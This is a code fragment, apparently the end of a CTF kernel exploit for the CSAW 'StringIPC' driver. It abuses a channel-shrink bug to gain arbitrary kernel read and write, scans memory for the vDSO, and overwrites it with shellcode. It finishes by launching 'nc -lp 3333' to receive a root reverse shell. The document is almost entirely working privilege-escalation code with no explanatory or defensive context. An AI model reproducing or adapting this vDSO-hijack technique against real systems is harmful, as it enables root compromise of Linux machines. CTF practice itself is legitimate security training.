 ```
    if(fd < 0){
        printf("[-] open dev error!\n");
        return 0;
    }
    alloc_channel.id = -1;
    alloc_channel.buf_size = 0x100;
    ioctl(fd, CSAW_ALLOC_CHANNEL, &alloc_channel);
    if(alloc_channel.id == -1){
        printf("[-] alloc channel failed!\n");
        return 0;
    }

    shrink_channel.id = alloc_channel.id;
    shrink_channel.size = 0x101;
    ioctl(fd, CSAW_SHRINK_CHANNEL, &shrink_channel);

    for(addr = 0xffffffff80000000; addr < 0xffffffffffffefff; addr += 0x1000){ //按页遍历，vdso的起始地址是页的整数倍
        seek_channel.id = alloc_channel.id;
        seek_channel.index = addr-0x10;
        seek_channel.whence = SEEK_SET;
        ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

        read_channel.id = alloc_channel.id;
        read_channel.buf = buf;
        read_channel.count = 0x1000;
        ioctl(fd, CSAW_READ_CHANNEL, &read_channel);
        search = memmem(read_channel.buf, 0x1000, "gettimeofday", 12);
        if(search && ((search -(size_t)buf) == 0x2cd)){
                vdso_kernel = addr;
                printf("[+] vdso_kernel: 0x%lx\n",vdso_kernel);
                break;
            }
    }

    seek_channel.id = alloc_channel.id;
    seek_channel.index = vdso_kernel - 0x10 + 0xc80;
    seek_channel.whence = SEEK_SET;
    ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

    write_channel.id = alloc_channel.id;
    write_channel.buf = shellcode;
    write_channel.count = strlen(shellcode);
    ioctl(fd, CSAW_WRITE_CHANNEL, &write_channel);

    if(check_have_writed(shellcode) != 0){
        printf("[+] shellcode have been writed!\n");
        printf("[+] now you get root!\n");
        system("nc -lp 3333");
    }else{
        printf("[-] failed!\n");
    }

    return 0;
}

```
